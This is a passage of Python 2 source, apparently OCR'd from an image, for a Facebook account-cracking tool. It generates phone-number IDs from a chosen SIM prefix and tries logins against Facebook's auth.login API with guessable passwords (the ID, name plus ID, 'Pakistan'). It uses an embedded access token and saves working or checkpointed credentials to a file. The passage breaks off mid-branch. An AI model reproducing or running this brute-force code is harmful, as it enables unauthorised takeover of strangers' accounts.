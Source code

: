             print ("[!] File Not Found")
            raw_input("\n[ Back ]")
            blackmafiax()
    elif peak =='0':
        login()
    else:
        print '[!] Fill In Correctly'
        action()
    print 50* '\033[1;94m-'
    xxx = str(len(id))
    jalan ('\033[1;91m Total ids Accounts: '+xxx)
    jalan ('\033[1;92mSim code you choose: '+c)
    jalan ("\033[1;93mWait  Start Cracking...")
    jalan ("\033[1;94mTo Stop Process Press Ctrl+z")
    print 50* '\033[1;97m-'
    def main(arg):
        global cpb,oks
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            i﻿f 'access_token' in q:
                print '\x1b[1;32m[RK-OK]  ' + k + c + user + '  |  ' + pass1                                       
                okb = open('save/cloned.txt', 'a')
                okb.write(k+c+user+pass1+'\n')
                okb.close()
                oks.append(c+user+pass1)
            else:
                if 'www.facebook.com' in q['error_msg']:
                    print '\033[1;97m[RK-CP] ' + k + c + user + '  |  ' + pass1
                    cps = open('save/cloned.txt', 'a')
                    cps.write(k+c+user+pass1+'\n')
                    cps.close()
                    cpb.append(c+user+pass1)
                else:
                    pass2 = k + nama + user
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;32m[RK-OK]  ' + k + c + user +  '  |  ' + pass2
                        okb = open('save/cloned.txt', 'a')
                        okb.write(k+c+user+pass2+'\n')
                        okb.close()
                        oks.append(c+user+pass2)
                    else:
                        if 'www.facebook.com' in q['error_msg']:
                            print '\033[1;97m[RK-CP] ' + k + c + user + '  |  ' + pass2
                            cps = open('save/cloned.txt', 'a')
                            cps.write(k+c+user+pass2+'\n')
                            cps.close()
                            cpb.append(c+user+pass2)
                        else:
                            pass3="Pakistan"